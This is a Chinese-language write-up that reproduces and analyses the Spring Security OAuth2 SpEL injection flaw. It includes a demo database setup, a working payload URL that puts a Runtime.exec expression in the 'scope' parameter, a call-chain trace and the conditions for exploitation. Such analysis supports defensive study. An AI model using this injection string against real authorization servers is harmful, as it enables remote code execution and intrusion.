# springframework.security.oauth

## 0x00 前言

存在问题的依赖包




## 0x01 环境准备


首先先把demo搭建起来

```
https://github.com/wanghongfei/spring-security-oauth2-example
```

对spring不是很熟悉，找配置文件修改还花了点时间

打开idea，在初始界面选择import  选择demo里的pom.xml，然后花点时间等待就好了了了。。。大概得要个10几分钟。

在这段时间里，可以先把mysql新建一下：

创建脚本：

```
CREATE SCHEMA IF NOT EXISTS `alan-oauth` DEFAULT CHARACTER SET utf8 ;
USE `alan-oauth` ;

-- -----------------------------------------------------
-- Table `alan-oauth`.`clientdetails`
-- -----------------------------------------------------
CREATE TABLE IF NOT EXISTS `alan-oauth`.`clientdetails` (
  `appId` VARCHAR(128) NOT NULL,
  `resourceIds` VARCHAR(256) NULL DEFAULT NULL,
  `appSecret` VARCHAR(256) NULL DEFAULT NULL,
  `scope` VARCHAR(256) NULL DEFAULT NULL,
  `grantTypes` VARCHAR(256) NULL DEFAULT NULL,
  `redirectUrl` VARCHAR(256) NULL DEFAULT NULL,
  `authorities` VARCHAR(256) NULL DEFAULT NULL,
  `access_token_validity` INT(11) NULL DEFAULT NULL,
  `refresh_token_validity` INT(11) NULL DEFAULT NULL,
  `additionalInformation` VARCHAR(4096) NULL DEFAULT NULL,
  `autoApproveScopes` VARCHAR(256) NULL DEFAULT NULL,
  PRIMARY KEY (`appId`))
ENGINE = InnoDB
DEFAULT CHARACTER SET = utf8;


-- -----------------------------------------------------
-- Table `alan-oauth`.`oauth_access_token`
-- -----------------------------------------------------
CREATE TABLE IF NOT EXISTS `alan-oauth`.`oauth_access_token` (
  `token_id` VARCHAR(256) NULL DEFAULT NULL,
  `token` BLOB NULL DEFAULT NULL,
  `authentication_id` VARCHAR(128) NOT NULL,
  `user_name` VARCHAR(256) NULL DEFAULT NULL,
  `client_id` VARCHAR(256) NULL DEFAULT NULL,
  `authentication` BLOB NULL DEFAULT NULL,
  `refresh_token` VARCHAR(256) NULL DEFAULT NULL,
  PRIMARY KEY (`authentication_id`))
ENGINE = InnoDB
DEFAULT CHARACTER SET = utf8;


-- -----------------------------------------------------
-- Table `alan-oauth`.`oauth_approvals`
-- -----------------------------------------------------
CREATE TABLE IF NOT EXISTS `alan-oauth`.`oauth_approvals` (
  `userId` VARCHAR(256) NULL DEFAULT NULL,
  `clientId` VARCHAR(256) NULL DEFAULT NULL,
  `scope` VARCHAR(256) NULL DEFAULT NULL,
  `status` VARCHAR(10) NULL DEFAULT NULL,
  `expiresAt` DATETIME NULL DEFAULT NULL,
  `lastModifiedAt` DATETIME NULL DEFAULT NULL)
ENGINE = InnoDB
DEFAULT CHARACTER SET = utf8;


-- -----------------------------------------------------
-- Table `alan-oauth`.`oauth_client_details`
-- -----------------------------------------------------
CREATE TABLE IF NOT EXISTS `alan-oauth`.`oauth_client_details` (
  `client_id` VARCHAR(128) NOT NULL,
  `resource_ids` VARCHAR(256) NULL DEFAULT NULL,
  `client_secret` VARCHAR(256) NULL DEFAULT NULL,
  `scope` VARCHAR(256) NULL DEFAULT NULL,
  `authorized_grant_types` VARCHAR(256) NULL DEFAULT NULL,
  `web_server_redirect_uri` VARCHAR(256) NULL DEFAULT NULL,
  `authorities` VARCHAR(256) NULL DEFAULT NULL,
  `access_token_validity` INT(11) NULL DEFAULT NULL,
  `refresh_token_validity` INT(11) NULL DEFAULT NULL,
  `additional_information` VARCHAR(4096) NULL DEFAULT NULL,
  `autoapprove` VARCHAR(256) NULL DEFAULT NULL,
  PRIMARY KEY (`client_id`))
ENGINE = InnoDB
DEFAULT CHARACTER SET = utf8;


-- -----------------------------------------------------
-- Table `alan-oauth`.`oauth_client_token`
-- -----------------------------------------------------
CREATE TABLE IF NOT EXISTS `alan-oauth`.`oauth_client_token` (
  `token_id` VARCHAR(256) NULL DEFAULT NULL,
  `token` BLOB NULL DEFAULT NULL,
  `authentication_id` VARCHAR(128) NOT NULL,
  `user_name` VARCHAR(256) NULL DEFAULT NULL,
  `client_id` VARCHAR(256) NULL DEFAULT NULL,
  PRIMARY KEY (`authentication_id`))
ENGINE = InnoDB
DEFAULT CHARACTER SET = utf8;


-- -----------------------------------------------------
-- Table `alan-oauth`.`oauth_code`
-- -----------------------------------------------------
CREATE TABLE IF NOT EXISTS `alan-oauth`.`oauth_code` (
  `code` VARCHAR(256) NULL DEFAULT NULL,
  `authentication` BLOB NULL DEFAULT NULL)
ENGINE = InnoDB
DEFAULT CHARACTER SET = utf8;


-- -----------------------------------------------------
-- Table `alan-oauth`.`oauth_refresh_token`
-- -----------------------------------------------------
CREATE TABLE IF NOT EXISTS `alan-oauth`.`oauth_refresh_token` (
  `token_id` VARCHAR(256) NULL DEFAULT NULL,
  `token` BLOB NULL DEFAULT NULL,
  `authentication` BLOB NULL DEFAULT NULL)
ENGINE = InnoDB
DEFAULT CHARACTER SET = utf8;
```

然后在`oauth_client_details`表中插入记录:

```
# client_id, resource_ids, client_secret, scope, authorized_grant_types, web_server_redirect_uri, authorities, access_token_validity, refresh_token_validity, additional_information, autoapprove
'client', NULL, 'secret', 'app', 'authorization_code', 'http://www.baidu.com', NULL, NULL, NULL, NULL, NULL
```

这里为NULL的不用填就可以了，创建的时候默认就是NULL


这个时候idea也差不多导入完了，要想跑通整个流程，还需要分配 `client_id`, `client_secret`才行。Spring Security OAuth2的配置方法是编写`@Configuration`类继承`AuthorizationServerConfigurerAdapter`，然后重写`void configure(ClientDetailsServiceConfigurer clients)`方法，如：

```
@Override
    public void configure(ClientDetailsServiceConfigurer clients) throws Exception {
        clients.inMemory() // 使用in-memory存储
                .withClient("client") // client_id
                .authorizedGrantTypes("authorization_code") // 该client允许的授权类型
                .scopes(); // 允许的授权范围
    }
```



修改数据库的配置信息（修改源代码中的`application.properties`中的数据库的用户名和密码参数为本机的数据库和密码的参数。）：



然后启动就可以看到界面了。



授权页面：

```
localhost:8080/oauth/authorize?client_id=client&response_type=code&redirect_uri=http://www.baidu.com
```


## 0x02 利用过程


**payload：**

```
http://localhost:8080/oauth/authorize?client_id=client&response_type=code&redirect_uri=http://www.baidu.com&scope=%24%7BT%28java.lang.Runtime%29.getRuntime%28%29.exec%28%22calc.exe%22%29%7D
```

输入完以后，会重定向到login页面，随意输入username和password，点击login，则会触发payload

其中scope就是我们的rce的payload

```
${T(java.lang.Runtime).getRuntime().exec("calc.exe")}
```




## 0x03 漏洞分析


首先了解下什么是OAuth2，OAuth2是提供第三方登录的一个协议，其基本流程如下图所示：



​	当用户使用客户端时，客户端要求授权，即图中的AB。接着客户端通过在B中获得的授权向认证服务器申请令牌，即access token。最后在EF阶段，客户端带着access token向资源服务器请求并获得资源。

​	https://zhuanlan.zhihu.com/p/20913727

​	在获得access token之前，客户端需要获得用户的授权。根据标准，有四种授权方式：授权码模式（authorization code）、简化模式（implicit）、密码模式（resource owner password credentials）、客户端模式（client credentials）。在这几种模式中，当客户端将用户导向认证服务器时，都可以带上一个可选的参数scope，这个参数用于表示客户端申请的权限的范围。

​	在spring-security-oauth的默认配置中scope参数默认为空：

```
scope: The scope to which the client is limited. If scope is undefined or empty (the default) the client is not limited by scope.
```


跟到SpelView类里的render函数，



然后新建了一个PropertyPlaceholderHelper类，调用该类的replacePlaceholders函数，传入经过初步处理的template值maskedTemplate



跟进PropertyPlaceholderHelper.replacePlaceholders



调用了该类的parseStringValue函数，参数为(value, placeholderResolver, new HashSet())

其中payload在value里，palceholderResolver是SpelView类对象

在parseStringValue函数会对value的值进行解析




跟到了SpelView类的构造函数中



调用expression类的getValue函数



然后调用ast.getValue





然后调用CompoundExpression类的getValueInternal方法



然后调用同一个类里的getValueRef方法



然后调用TypeReference类的getValueInternal方法



然后就调用了



经过一番处理替换之后得到value值




最后跟到了MethodReference类里的getValueInternal方法，最终在该方法里的execute函数触发payload







**利用条件**

1. 需要`scopes`没有配置白名单，否则直接`Invalid scope:xxx`。

   不过大部分OAuth都会限制授权的范围，即指定scopes。这个例子是因为我们没有指定OAuth所以才顺利复现。

2. 使用了默认的Approval Endpoint，生成对应的template，在spelview中注入spel表达式。不过可能绝大部分使用者都会重写这部分来满足自己的需求，从而导致spel注入不成功。

3. 角色是授权服务器（例如@EnableAuthorizationServer）


## 0x04 参考连接

https://paper.seebug.org/597/